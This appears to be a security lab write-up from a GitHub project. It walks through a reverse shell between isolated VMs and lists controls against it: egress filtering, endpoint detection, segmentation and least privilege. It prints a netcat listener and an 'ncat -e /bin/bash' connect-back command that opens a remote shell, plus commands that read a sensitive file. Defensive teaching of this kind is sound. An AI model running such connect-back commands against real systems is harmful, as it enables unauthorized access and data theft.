


# Reverse shell and post-exploitation

Finding and exploiting a service is only the opening move. The question that matters to a defender is what happens *after* an attacker gets a foothold, because that is when data leaves and persistence is planted. This project is a reverse shell: I had a target connect back to a listener on my Kali box, then used the interactive shell that gave me to read a sensitive file and write a new one. It is small, but it is the whole shape of post-exploitation in miniature.

> Both machines were lab VMs on an isolated network that I controlled. The file I read contained fake data placed there for the exercise.

## Connect-back, not connect-in

There are two ways to get a shell across the network. A **bind shell** listens on the target and waits for the attacker to connect in. A **reverse shell** does the opposite: the target reaches out to the attacker's listener. I used the reverse pattern, and the reason is the single most important idea here.

On Kali, I started a listener:

```
nc -nlvp 8888
```

On the target, I had it connect back and hand its shell over the connection:

```
ncat -e /bin/bash 192.168.10.6 8888
```

(The first attempt returned `Ncat: Network is unreachable` until routing was sorted, a reminder that the callback still has to have a path out.) Once it connected, my listener was sitting on an interactive `/bin/bash` running on the target.



The reverse direction matters because firewalls are usually strict about what comes *in* and loose about what goes *out*. An inbound connection to a random port on the target is exactly what a firewall is built to block; an outbound connection from the target to port 8888 (or 443, in a real engagement) often sails through the same firewall because outbound traffic is treated as trusted. The attacker turns the network's own asymmetry against it.

## What the shell could do

With an interactive shell on the target, I demonstrated the two things post-exploitation is about, reading and writing:

```
cd Finance/
cat accounts.txt          # read a sensitive file (fake data)
touch file1.txt
echo "How are you?" > file1.txt
cat file1.txt             # confirm the write landed
```

Reading `accounts.txt` is data exfiltration in its simplest form: anything the shell's user can read, the attacker can read and copy out over the same connection. Writing `file1.txt` is the other half: anything the user can write, the attacker can modify or plant, which is how persistence and tampering start. A foothold is not "access to one machine," it is access to everything that one machine's account can touch.

## The controls that stop it

A reverse shell defeats inbound firewall rules by design, so the defenses live elsewhere:

- **Egress filtering.** The callback only works because the target was allowed to open an arbitrary outbound connection. A default-deny outbound policy that only permits known destinations and ports breaks the connect-back entirely. This is the outbound side of the same posture I run in my [Network Lab](https://github.com/Duresa7/Network-Lab), where the IoT zone, for instance, is allowed out only where it has a reason to go.
- **Endpoint detection.** A network process spawning `/bin/bash`, or `bash` with its standard input and output wired to a socket, is a strong signal. EDR and host rules catch the shape of a reverse shell even when the traffic itself looks ordinary.
- **Segmentation to contain the blast radius.** If the foothold lands somewhere that can only reach a few segments, the shell's reach is bounded. The whole three-tier model in my network design exists so that a shell on an edge host cannot wander into the management tier.
- **Least privilege on the host.** The shell can only read and write what its user can. A service account that owns nothing but its own working directory makes a foothold far less valuable.

The exercise was four commands and a one-line listener, but it is the reason the defensive work is built the way it is: the goal is not only to keep attackers out, it is to make sure that a foothold cannot read the sensitive file, cannot phone home, and cannot reach anything worth reaching.

## Files in this project

- [`commands.md`](commands.md) - the listener, the connect-back, and the post-exploitation commands.
- [`sources.md`](sources.md) - Ncat, MITRE ATT&CK (C2 / exfiltration), and egress-filtering references.
- `evidence/` - the capture below (isolated lab VMs).

## Evidence



*The target connects back to the Kali listener; the shell then reads a (fabricated) file and writes a new one.*

This screenshot is from isolated lab VMs. The file content shown is fabricated data created for the exercise.
